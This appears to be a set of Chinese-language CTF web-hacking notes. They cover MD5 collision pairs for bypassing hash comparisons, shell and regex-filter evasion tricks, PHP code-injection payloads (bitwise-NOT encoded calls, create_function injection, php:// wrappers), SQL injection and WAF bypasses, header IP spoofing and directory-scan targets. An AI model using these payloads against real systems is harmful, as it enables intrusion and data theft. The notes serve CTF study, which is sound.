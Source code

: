 # MD5强比较

```
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){  
    echo $flag;  
}

```
https://marc-stevens.nl/research/md5-1block-collision/
```
(URL编码)
a = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

md5 = 008ee33a9d58b51cfeb425b0959121c9
```
```
https://www.mscs.dal.ca/~selinger/md5collision/

(Raw Hex,需要->From Hex->URL编码)
a = d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70

b = d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70

md5 = 79054025255fb1a26e4bc422aef54eb4
```
或直接传入数组`param1[]=1&param2[]=2`
弱比较：
QNKCDZO和s878926199a
# WebShell文件读取
ls bash tac nl more less head wget tail vi cat od grep sed bzmore bzless pcre paste diff file echo sh sort



Linux将反斜杠`\`视为换行符，于是可以在Shell任意添加反斜杠以绕过正则匹配（例如`l\s\ -la`）


POST传参传递`\xff`之类的字节时，选择`application/x-www-form-urlencoded`时，`HackBar`会报错`URI malformed`；选择`application/x-www-form-urlencoded(raw)`时，HTTP数据包最后的`\r`将会被后端识别为一个字符。

BurpSuite抓不到`localhost`，只能抓到`127.0.0.1`

# [suctf 2019]EasySQL
`show databases;`
`show tables;`
`show columns from Flag`

PHP的传参
`index.php?num=123`等价于`$_GET['num']`
`index.php? num=123`等价于`$_GET['num']`，可绕过WAF
`index.php?n um=123`等价于`$_GET['n_um']`
`index.php?num =123`等价于`$_GET['num_']`


scandir():列出参数目录中的文件和目录  
readfile():读取文件内容

Response Head、HTML注释都能藏东西

gopher|http|file|ftp|https|dict

备份文件`index.php.swp`


Shell绕过
eval()
取反，例如过滤`[A-Za-z0-9]+`，要执行`phpinfo()`，可以`(~%8F%97%8F%96%91%99%90)();`

防范措施
`php.ini`配置`disabled_functions`参数，禁止`exec()`、`eval()`等函数的运行

扫目录：flag.php robots.txt www.tar.gz login.php register.php config.php source.zip index.php.swp www.zip example.php /secret
[16:04:39] 200 - 174B - /.idea/misc.xml  
[16:04:39] 200 - 296B - /.idea/modules.xml  
[16:04:40] 200 - 19KB - /.idea/workspace.xml

Mysql更改数据库名、表名、列名的rename table语句，把flag表改为PHP要查的表，从而绕过select、union、and、or
tac命令可以后接通配符`?`，例如`tac /flag`可以写成`tac /fla?`，以绕过正则匹配

/search.php?id=elt(length(database())>1,6) 新型盲注，可以绕`^`

SQL的WAF：'blob', 'load_extension', 'char', 'unicode', '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp', 'in', 'limit', 'order', 'union', 'join'

show databases
show tables
show columns from 表名

SQL怎么用alter和rename更改表名和列名
order by与group by都可以爆列数

PHP伪协议：
data://text/plain/, ..........当作文件读取
`php://filter/read=convert.quoted-printable-encode/resource=GWHT.php`
GET时读取php://input路径，会读取POST中的内容，记得改ContentLength响应头。（最好的方式是以POST发送，然后抓包手动把POST改成GET，修改ContentLength，POST区必须用空格，不能用`%20`）

正则表达式e模式？？？

如果`$a($b)`阻止`$a = 'phpinfo'`，则如何执行？答：`assert(phpinfo())`或`call_user_func(phpinfo)`

.stm .shtm .shtml文件是干什么的？好像可以SSI注入？

`?code=(~%8f%97%8f%96%91%99%90)();`,`@eval($code)`，但是过滤所有字母和数字。`~`不能放在括号外。

改IP：X-Forward-For  Client-IP X-Real-IP

Mysql字符串截取：left()、mid()、right()、substr()、substring()、substring_index()、reverse()

若`$a`、`$b`可控，面对注入点`$a('', $b);`，根据形参个数与位置马上联想到`$a=create_function`。PHP实验`create_function($args,$code)`的原理如下：
```php
eval('
	function 随机函数名($args){
		$code
	}
'}
return 随机函数名
```
利用这一点，我们可以令`$code=}......//`闭合花括号，执行恶意payload`......`，再用`//`把最后的花括号注释掉。

`preg_match('/^[0-9a-zA-Z]*$/i',$str)`可以用`%0a`多行绕过，或者中间插入一个`_`绕过

phpinfo()里面的`auto_prepend_file`

扫参数：
```shell
$ arjun -t 1 -u <URL> -d 0.1 --stable
```

弱密码：guest/guest